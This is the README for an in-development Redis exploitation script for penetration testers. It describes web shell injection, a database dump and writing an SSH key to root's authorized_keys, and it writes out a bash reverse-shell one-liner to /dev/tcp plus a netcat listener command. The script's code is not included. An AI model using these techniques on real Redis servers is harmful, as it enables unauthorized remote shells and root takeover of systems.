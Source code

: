 <a href="https://www.buymeacoffee.com/0xDTC"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me a knowledge&emoji=📖&slug=0xDTC&button_colour=FF5F5F&font_colour=ffffff&font_family=Comic&outline_colour=000000&coffee_colour=FFDD00" /></a>

# Notice: Project is under development not fully working.

## Redis Exploit Automation Script

This script is designed for penetration testers and ethical hackers to exploit Redis misconfigurations. It automates tasks such as injecting custom web shells, dumping the Redis database, and injecting SSH keys for privilege escalation.

---

### Features
1. **Redis Connectivity Check**:
   - Verifies if the target Redis server is reachable.
   - Supports authentication if required.

2. **Custom Web Shell Injection**:
   - Prompts the user to input a custom shell command (e.g., a reverse shell payload).
   - Injects the command into a writable directory on the target.

3. **Database Dump**:
   - Dumps the Redis database to disk for offline analysis.

4. **SSH Key Injection**:
   - Injects an SSH public key for root access if the target allows configuration changes.

5. **Netcat Listener Validation**:
   - Ensures a listener (`nc -lvnp <port>`) is running before executing commands requiring it.

---

### Requirements
- **Dependencies**:
  - `redis-cli`: To interact with the Redis server.
  - `curl`: To fetch reverse shell payloads if needed.
  - `netstat`: To check for active Netcat listeners.

Install dependencies on Debian/Ubuntu:
```bash
sudo apt update
sudo apt install redis-tools curl net-tools
```

---

### Usage
1. Clone this repository:
   ```bash
   git clone https://github.com/yourusername/redis-exploit-script.git
   cd redis-exploit-script
   ```

2. Make the script executable:
   ```bash
   chmod +x redis_exploit.sh
   ```

3. Run the script:
   ```bash
   ./redis_exploit.sh <host> <port> [password]
   ```
   - Replace `<host>` with the Redis server's IP.
   - Replace `<port>` with the Redis server's port (default: 6379).
   - If authentication is required, provide the `password`. Otherwise, omit it.

---

### Menu Options
1. **Inject a Custom Web Shell**:
   - Prompts the user to input a shell command.
   - Example: A reverse shell payload such as:
     ```bash
     bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1
     ```
   - Injects the payload into a writable web directory on the target.
   - Access the web shell via: `http://<host>/customshell.php`.

2. **Dump the Database**:
   - Executes `SAVE` to dump the database to disk.
   - Provides instructions to fetch the `dump.rdb` file for offline analysis.

3. **Inject an SSH Key**:
   - Prompts for your SSH public key.
   - Injects the key into `/root/.ssh/authorized_keys`.
   - Allows SSH access to the target as `root`.

---

### Examples
- **Run Script Without Authentication**:
  ```bash
  ./redis_exploit.sh 192.168.1.10 6379
  ```

- **Run Script with Authentication**:
  ```bash
  ./redis_exploit.sh 192.168.1.10 6379 mypassword
  ```

---

### Notes
- Ensure you have a Netcat listener running for reverse shells:
  ```bash
  nc -lvnp <your-port>
  ```

- The script will wait until the listener is active before proceeding with shell injection.

---

### Disclaimer
This script is intended for legal and ethical use only. Ensure you have explicit permission before testing or exploiting any Redis server. Misuse of this script may lead to legal consequences.

---

## Contribution
Feel free to open issues or submit pull requests to improve the script!
